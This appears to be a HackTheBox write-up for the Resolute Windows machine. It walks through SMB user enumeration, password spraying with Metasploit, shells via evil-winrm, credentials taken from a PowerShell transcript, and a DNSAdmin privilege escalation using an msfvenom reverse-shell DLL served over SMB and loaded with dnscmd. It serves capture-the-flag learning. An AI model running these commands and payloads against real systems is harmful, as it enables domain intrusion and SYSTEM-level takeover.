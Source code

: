 ```yaml
---
title: "HackTheBox: Resolute | Walkthrough"
date: 2020-05-30
categories: [hackthebox]
tags: [windows, smb, dnsadmin, hackthebox]
---
```


## Recon

Let’s start with an nmap scan:

```sh
nmap -A 10.10.10.169
````

Now enumerate SMB:

```sh
enum4linux 10.10.10.169 > enum
cat enum | grep "Account:"
```

You should see some accounts and some credentials.
Make a user list from it:

```sh
cat enum | grep "Account:" | cut -d " " -f8 > user_list
```

Now, try logging in with these accounts using Metasploit:

```sh
msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
show options
set RHOSTS 10.10.10.169
set SMBPass 'Welcome123!'
set USER_FILE ~/HTB/Resolute/user_list
run
```

You should see that it works for one user: **melanie**.

---

## User

Now, let’s use evil-winrm to get a shell.

```sh
cd ~/HTB/Resolute/
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm/
```

Running it:

```sh
ruby evil-winrm.rb
```

It throws an error — we need dependencies.
Check the `Gemfile`:

```sh
cat Gemfile
gem install winrm winrm-fs colorize stringio
```

Now, try again:

```sh
ruby evil-winrm.rb
```

This time, it shows the help menu.
Connect to the machine:

```sh
ruby evil-winrm.rb -u melanie -p 'Welcome123!' -i 10.10.10.169
```

You should get a shell as Melanie.

Grab the user flag:

```sh
cd ..
type Desktop\user.txt
```

---

## User 2 (Ryan)

Exploring the system:

```sh
cd C:\
dir -h
cd PSTranscripts
dir -h
cd 20191203
type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Inside the PowerShell transcript, you should see credentials for **Ryan**.

Save them in a file for later:

```
Username: ryan
Password: Serv3rAdmin4cc123!
```

Now log in as Ryan:

```sh
ruby evil-winrm.rb -u ryan -p 'Serv3rAdmin4cc123!' -i 10.10.10.169
```

---

## Administrator

Check privileges:

```sh
whoami /all
```

We see that Ryan is a member of the **DNSAdmin** group.
This group can be abused for privilege escalation via DNS plugin DLL injection.

(For a more detailed write-up of this privesc, see my post: [Windows Privilege Escalation: DNSAdmin to DomainController](/windows-privilege-escalation-dnsadmin-to-domaincontroller/))

---

## Root

First, generate a malicious DLL payload:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.155 LPORT=4444 --platform=windows -f dll > ~/HTB/Resolute/share/plugin.dll
```

Start an SMB share to host the DLL:

```sh
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/HTB/Resolute/share/
```

In another tab, set up a listener:

```sh
nc -nvlp 4444
```

Now, on the target Windows machine, configure DNS to load our malicious DLL:

```sh
dnscmd.exe Resolute.megabank.local /config /serverlevelplugindll \\10.10.15.155\share\plugin.dll
sc.exe stop dns
sc.exe start dns
```

At this point, you should get a reverse shell as **SYSTEM** in your listener.

Finally, grab the root flag:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

Congratulations, root!

